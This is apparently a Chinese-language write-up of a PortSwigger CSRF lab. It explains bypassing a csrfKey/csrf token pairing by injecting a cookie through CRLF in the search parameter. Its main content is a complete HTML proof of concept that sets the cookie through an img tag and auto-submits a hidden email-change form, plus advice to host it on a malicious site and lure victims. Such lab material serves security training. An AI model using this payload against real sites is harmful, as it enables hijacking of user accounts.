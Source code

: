

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/csrf/images/3B804C823B164AC3A4B104B091D074AAclipboard.png)

将用户一的csrfkey和csrf用用户二的替换，还可以执行更改密码操作，说明存在csrf



执行搜索时发现输入的搜索值会包含到响应头里，可以尝试cookie注入

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/csrf/images/F04D28EEE032403CB7E7248E15F28253clipboard.png)





利用脚本：

```javascript
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://ac7c1f0a1e8ad4e880c62ed200870076.web-security-academy.net/email/change-email" method="POST">
      <input type="hidden" name="email" value="123&#64;qq&#46;com" />
      <input type="hidden" name="csrf" value="nGrpG4PjPWlzPrghnZsFEAmytn7lmmz5" />
      <input type="submit" value="Submit request" />
    </form>
    //自动访问src，执行cookie注入
<img src="https://ac7c1f0a1e8ad4e880c62ed200870076.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=LZJbJ7KOYDPeUD9JWQqmAH8QA3Dd1bNq" onerror="document.forms[0].submit()">
  </body>
</html>

```



将脚本部署到恶意网站上，诱使用户点击即可更改用户email